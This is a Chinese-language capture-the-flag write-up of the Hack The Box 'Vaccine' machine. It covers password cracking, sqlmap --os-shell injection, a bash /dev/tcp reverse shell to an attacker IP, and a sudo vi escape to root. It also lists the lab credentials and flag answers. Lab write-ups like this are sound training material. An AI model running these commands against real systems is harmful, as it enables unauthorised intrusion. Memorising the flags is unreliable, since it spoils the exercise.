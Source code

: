 ```yaml
---
title: Hack the box Vaccine题解
tags: 
  - HTB
  - 渗透测试
category: 靶场&靶机
permalink: /archives/28632/
published: 2023-04-02 12:10:06
---
```


>  在打靶机的时候网络有点问题，所以这份WP里的目标机器的IP前后是不一样的，但总的来说，方法大同小异

 # 扫端口

```shell
nmap -sC -sV 10.129.252.99
```

![image-20230402121345323](./images/image-20230402121345323.png)

开启了21、22和80端口，访问80端口，什么都没有，结合任务1和任务2，就直接练上去看有没有东西

![image-20230402131255007](./images/image-20230402131255007.png)

# ftp

连上以后把文件复制出来

![image-20230402131346467](./images/image-20230402131346467.png)

# 破解zip密码

解压的时候发现是有密码的

![image-20230402131602635](./images/image-20230402131602635.png)

看到任务4，和经过百度知道利用`zip2john`去获取压缩包的`hash`值，然后使用`john`去破解`hash`值

![image-20230402131644512](./images/image-20230402131644512.png)

破解成功

![image-20230402132032683](./images/image-20230402132032683.png)

# backup的内容

得到了两个文件

![image-20230402132448632](./images/image-20230402132448632.png)

其中`index.php`里面有网站的管理员账号和密码，密码经过了md5加密，经过破解得到：`qwerty789`，这也是任务5的答案

![image-20230402132520686](./images/image-20230402132520686.png)

![image-20230402132605551](./images/image-20230402132605551.png)

# sql注入

登录到后台后有个搜索框尝试有无sql注入，发现可注入，加上任务6的提示，那就直接`sqlmap`一把梭

![image-20230402204507038](./images/image-20230402204507038.png)

用`burpsuite`抓包保存到1.txt后，利用sqlmap进行注入，并利用`--os-shell`进行执行`shell`的命令

![image-20230402223030330](./images/image-20230402223030330.png)

- 注入命令：

```shell
sqlmap -r 1.txt --os-shell 
```

# 反弹shell

- 攻击机监听

```shell
nc -lvvp 1234
```

- 在`--os-shell`里执行

```shell
bash -c "bash -i >& /dev/tcp/10.10.14.13/1234 0>&1"
```

在网站的根目录下的`dashboard.php`里发现了数据库的一个账号的密码

![image-20230402223929668](./images/image-20230402223929668.png)

```
账号：postgres
密码：P@s5w0rd!
```

# 提权

在前面的端口扫描里看到这台机器是开启了22端口的，尝试使用上面得到的账号密码去登陆（想要用这个是因为为反弹shell后并不稳定，老是掉线，所以就换另一个方法），可以成功登录![image-20230402224519697](./images/image-20230402224519697.png)

使用命令`suo -l`查看`postgres`能执行的高级权限的命令

![image-20230402224934023](./images/image-20230402224934023.png)

发现有一个命令是：

```shell
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

然后看官方的wp得知，可以利用vi进行提权

>首先运行命令：sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
>输入`:`切换命令模式输入：set shell=/bin/sh
>
>在按一次`:`切换到命令模式输入：shell

然后就切换到了`root`用户

![image-20230402230044265](./images/image-20230402230044265.png)

# 答案

> 1. FTP
> 2. anonymous
> 3. backup.zip
> 4. zip2john
> 5. qwerty789
> 6. --os-shell
> 7. vi
> 8. ec9b13ca4d6229cd5cc1e09980965bf7
> 9. dd6e058e814260bc70e9bbdef2715849

# 参考博客

[hack the box靶场Vaccine靶机](https://blog.csdn.net/zr1213159840/article/details/123693695)

[渗透测试练习靶场hackthebox——Starting Point Vaccine攻略（内附各种bug解决方案）](https://blog.csdn.net/m0_48066270/article/details/108696605)
